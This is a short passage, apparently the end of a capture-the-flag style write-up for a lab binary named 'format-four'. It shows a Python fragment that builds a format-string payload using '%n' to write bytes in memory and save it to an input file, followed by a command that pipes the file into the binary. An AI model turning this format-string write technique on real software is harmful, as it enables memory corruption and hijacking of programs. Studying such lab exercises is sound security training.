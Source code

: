 ```
buf += b'%n '  # Write the third byte - 0x04

with open('/home/user/input.txt', 'wb') as f:
  f.write(buf)
```

Exploit with:

```
python3 ~/format/format4/exploit.py; cat ~/input.txt | ./format-four
```
